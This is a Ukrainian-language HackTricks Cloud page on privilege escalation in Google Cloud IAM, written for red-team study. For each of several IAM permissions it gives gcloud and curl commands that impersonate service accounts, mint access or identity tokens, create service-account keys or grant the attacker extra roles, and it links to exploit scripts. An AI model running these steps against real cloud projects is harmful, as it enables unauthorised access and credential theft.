 # GCP - IAM Privesc

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## IAM

Знайдіть більше інформації про IAM тут:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Атакуючий з вказаними дозволами зможе оновити роль, призначену вам, і надати вам додаткові дозволи до інших ресурсів, таких як:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Ви можете знайти скрипт для автоматизації **створення, експлуатації та очищення вразливого середовища тут** і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Зловмисник з вказаними дозволами зможе **запросити access token, який належить Service Account**, тому можливо запросити access token Service Account з більшими привілеями, ніж у нас.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Зловмисник з вказаними дозволами зможе **створити ключ, керований користувачем, для Service Account**, що дозволить нам отримати доступ до GCP як цей Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Зверніть увагу, що **`iam.serviceAccountKeys.update` не працюватиме для зміни ключа** SA, оскільки для цього також потрібні дозволи `iam.serviceAccountKeys.create`.

### `iam.serviceAccounts.implicitDelegation`

Якщо у вас є дозвіл **`iam.serviceAccounts.implicitDelegation`** на обліковий запис служби, який має дозвіл **`iam.serviceAccounts.getAccessToken`** на третій обліковий запис служби, тоді ви можете використовувати implicitDelegation для **створення токена для цього третього облікового запису служби**. Ось діаграма для пояснення.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Зверніть увагу, що згідно з [**документацією**](https://cloud.google.com/iam/docs/understanding-service-accounts), делегування `gcloud` працює лише для генерації токена за допомогою методу [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken). Ось як отримати токен безпосередньо за допомогою API:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Атакуючий з вказаними дозволами зможе **підписувати довільні дані в GCP**. Таким чином, буде можливо **створити непідписаний JWT SA і потім відправити його як blob, щоб отримати підписаний JWT** від цільового SA. Для отримання додаткової інформації [**читайте це**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) і [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Атакуючий з вказаними дозволами зможе **підписувати правильно сформовані JSON web tokens (JWTs)**. Різниця з попереднім методом полягає в тому, що **замість того, щоб змусити google підписати blob, що містить JWT, ми використовуємо метод signJWT, який вже очікує JWT**. Це робить його простішим у використанні, але ви можете підписувати лише JWT замість будь-яких байтів.

Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) і python-скрипт для зловживання цим привілеєм [**тут**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Для отримання додаткової інформації перегляньте [**оригінальне дослідження**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Атакуючий з вказаними дозволами зможе **додавати IAM політики до сервісних акаунтів**. Ви можете зловживати цим, щоб **надати собі** необхідні дозволи для імітації сервісного акаунта. У наступному прикладі ми надаємо собі роль `roles/iam.serviceAccountTokenCreator` над цікавим SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs permission** схожий на **iam:PassRole permission з AWS**. Це важливо для виконання завдань, таких як ініціювання Compute Engine instance, оскільки це надає можливість "actAs" Service Account, забезпечуючи безпечне управління дозволами. Без цього користувачі можуть отримати надмірний доступ. Крім того, експлуатація **iam.serviceAccounts.actAs** включає різні методи, кожен з яких вимагає набору дозволів, на відміну від інших методів, які потребують лише одного.

#### Імперсонація облікового запису служби <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Імперсонація облікового запису служби може бути дуже корисною для **отримання нових і кращих привілеїв**. Існує три способи, якими ви можете [імперсонувати інший обліковий запис служби](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Аутентифікація **використовуючи приватні ключі RSA** (розглянуто вище)
* Авторизація **використовуючи Cloud IAM policies** (розглянуто тут)
* **Розгортання завдань на GCP services** (більш застосовно до компрометації облікового запису користувача)

### `iam.serviceAccounts.getOpenIdToken`

Атакуючий з вказаними дозволами зможе згенерувати OpenID JWT. Вони використовуються для підтвердження особи і не обов'язково несуть будь-яку неявну авторизацію проти ресурсу.

Згідно з цим [**цікавим постом**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), необхідно вказати аудиторію (сервіс, де ви хочете використовувати токен для аутентифікації) і ви отримаєте JWT, підписаний google, що вказує на обліковий запис служби та аудиторію JWT.

Ви можете згенерувати OpenIDToken (якщо у вас є доступ) з:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Тоді ви можете просто використовувати його для доступу до сервісу з:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Деякі сервіси, які підтримують автентифікацію за допомогою таких токенів:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (якщо використовується Google OIDC)

Ви можете знайти приклад, як створити OpenID токен від імені сервісного акаунта [**тут**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте за нами** у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
